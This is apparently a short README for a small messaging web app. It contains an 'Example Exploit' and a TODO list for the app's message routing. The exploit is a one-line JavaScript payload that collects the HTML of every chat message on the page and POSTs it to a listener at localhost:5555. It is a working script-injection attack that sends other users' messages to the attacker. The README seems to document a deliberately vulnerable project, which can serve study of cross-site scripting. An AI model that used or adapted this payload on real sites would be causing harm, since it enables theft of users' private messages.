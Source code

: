 Example Exploit:
====================
    function getText(){let text='';let messages = document.getElementsByClassName('message');for(let i = 0; i < messages.length; i++){text += messages[i].innerHTML;}return text; }fetch('http://localhost:5555/', {method: 'POST', body:'username=' + getText(),headers: {      'Content-Type': 'application/x-www-form-urlencoded',     },}); 

TODO:
====================
- [ ] Change messageRouter to use middleware instead of render
- [ ] Make messages appear instantly instead of having to select user